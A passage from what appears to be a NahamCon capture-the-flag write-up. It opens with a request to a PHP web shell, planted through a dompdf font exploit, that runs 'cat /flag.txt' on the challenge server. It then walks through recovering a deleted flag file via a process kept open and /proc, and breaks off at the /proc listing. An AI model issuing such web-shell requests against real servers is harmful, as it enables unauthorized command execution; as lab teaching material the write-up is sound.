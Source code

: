     Now we can do the request to get the flag: http://challenge.nahamcon.com:32325/dompdf/lib/fonts/exploitfont_normal_ca2ef7add169164f27b92b1d24b96853.php?cmd=cat+/flag.txt


    ![stickers-flag](/assets/img/nahamctf-stickers-flag.png)


## Miscellaneous
### Zombie - Easy
We get access to an SSH. We find a script in the home directory that keep the flag.txt file in memory but afterwards delete the file. If we can find the process in memory, we can retrieve the file.

```bash
$ ssh -p 31871 user@challenge.nahamcon.com
user@zombie:~$ ls -lah
total 24
drwxr-sr-x    1 user     user        4.0K Jun 23 12:54 .
drwxr-xr-x    1 root     root        4.0K Jun 14 17:52 ..
-rwxr-xr-x    1 user     user        3.8K Jun 14 17:52 .bashrc
-rw-r--r--    1 user     user          17 Jun 14 17:52 .profile
-rwxr-xr-x    1 root     root         131 Jun 14 17:52 .user-entrypoint.sh
user@zombie:~$ cat .user-entrypoint.sh 
#!/bin/bash

nohup tail -f /home/user/flag.txt >/dev/null 2>&1 & # 
disown

rm -f /home/user/flag.txt 2>&1 >/dev/null

bash -i
```

The `nohup` command allows a command or process to continue running even after the terminal or shell that started it has been closed. Let's find the right process.

```bash
exituser@zombie:~$ ps
PID   USER     TIME   COMMAND
    1 root       0:00 /usr/sbin/sshd -D -e
    7 root       0:00 sshd: user [priv]
    9 user       0:00 sshd: user@pts/0
   10 user       0:00 {.user-entrypoin} /bin/bash /home/user/.user-entrypoint.sh
   11 user       0:00 tail -f /home/user/flag.txt
   13 user       0:00 bash -i
   16 user       0:00 ps
```

The `/proc` file system in Linux provides a way to access process-related information and resources as if they were regular files.

```bash
user@zombie:~$ cd /proc/11
user@zombie:/proc/11$ ls
arch_status      cwd              map_files        oom_adj          setgroups        timens_offsets
attr             environ          maps             oom_score        smaps            timers
auxv             exe              mem              oom_score_adj    smaps_rollup     timerslack_ns
cgroup           fd               mountinfo        pagemap          stack            uid_map
clear_refs       fdinfo           mounts           personality      stat             wchan
cmdline          gid_map          mountstats       projid_map       statm
comm             io               net              root             status
coredump_filter  limits           ns               schedstat        syscall
cpuset           loginuid         numa_maps        sessionid        task
```
